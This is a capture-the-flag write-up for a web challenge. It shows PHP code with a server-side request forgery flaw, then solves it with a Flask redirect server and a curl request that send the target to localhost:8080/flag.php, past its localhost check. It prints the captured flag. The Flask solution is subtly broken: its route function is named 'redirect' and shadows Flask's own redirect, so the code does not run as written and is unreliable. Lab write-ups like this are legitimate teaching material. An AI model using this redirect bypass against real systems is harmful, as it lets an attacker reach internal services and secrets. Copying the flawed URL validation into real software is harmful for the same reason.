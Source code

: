 # 🌐 Disparity

## Context

In this challenge, we are provided with a Flask web application, an Apache configuration, and two PHP files (`flag.php` and `url.php`). The goal is to exploit the application to bypass the Apache configuration and retrieve the flag.


## Objective

Perform an SSRF (Server-Side Request Forgery) attack to redirect the request to an internal service and retrieve the flag.

---

## Files

### Apache Configuration
```apache
<VirtualHost *:80>
    DocumentRoot /var/www/html/front
</VirtualHost>

<VirtualHost *:8080>
    DocumentRoot /var/www/html/back
    <Location />
        Require ip 127.0.0.1
    </Location>
</VirtualHost>

Listen 8080
```

### `flag.php`
```php
<?php

if ($_SERVER['HTTP_HOST'] === "localhost:8080"){
    echo getenv('FLAG');
} else {
    echo "You are not allowed to do that ";
}
?>
```

### `url.php`
```php
<?php

ini_set("default_socket_timeout", 5);

if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
    die("/url.php is only accessible with POST");
}

if (!isset($_POST['url']) || strlen($_POST['url']) === 0) {
    die("Parameter 'url' is mandatory");
}

$url = $_POST['url'];

try {
    $parsed = parse_url($url);
} catch (Exception $e){
    die("Failed to parse URL");
}

if (strlen($parsed['host']) === 0){
    die("Host can not be empty");
}

if ($parsed['scheme'] !== "http"){
    die("HTTP is the only option");
}

// Prevent DNS rebinding
try {
    $ip = gethostbyname($parsed['host']);
} catch(Exception $e) {
    die("Failed to resolve IP");
}

// Prevent from fetching localhost
if (preg_match("/^127\..*/",$ip) || $ip === "0.0.0.0"){
    die("Can't fetch localhost");
}

$url =  str_replace($parsed['host'],$ip,$url);

// Fetch url
try {
    ob_start();
    $len_content = readfile($url);
    $content = ob_get_clean();
} catch (Exception $e) {
    die("Failed to request URL");
}

if ($len_content > 0) {
    echo $content;
} else {
    die("Empty reply from server");
}

?>
```

---

## Solve

### Step 1: Understand the Application
The Apache configuration restricts access to the `/flag.php` endpoint to requests originating from `127.0.0.1`. The `url.php` file prevents direct access to localhost by validating the IP address and rejecting requests to `127.0.0.1`.

The Flask application, however, allows us to redirect requests to any URL, making it a potential entry point for an SSRF attack.

### Step 2: Set Up the Flask Server
We host the provided Flask application on our machine. The Flask server will redirect incoming requests to `http://localhost:8080/flag.php`.

```Python
from flask import Flask, redirect, request

app = Flask(__name__)

@app.route('/')
def redirect():
    response = redirect("http://localhost:8080/flag.php", code=302)
    
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=4444)
```

### Step 3: Exploit SSRF via `url.php`
We send a POST request to the `url.php` endpoint, passing the URL of our Flask server. The Flask server will then redirect the request to `http://localhost:8080/flag.php`, bypassing the Apache restriction.

Example POST request:
```bash
curl -X POST -d "url=http://<YOUR_IP>:4444/" http://target.com/url.php
```

Replace `<YOUR_IP>` with the IP address of your Flask server.

### Step 4: Retrieve the Flag
When the request is processed, the Flask server redirects it to `http://localhost:8080/flag.php`, which returns the flag. The flag is then sent back to us via the `url.php` response.


## Flag

```
MCTF{b82189df59a7ff9eee7447e4feb78165}
```
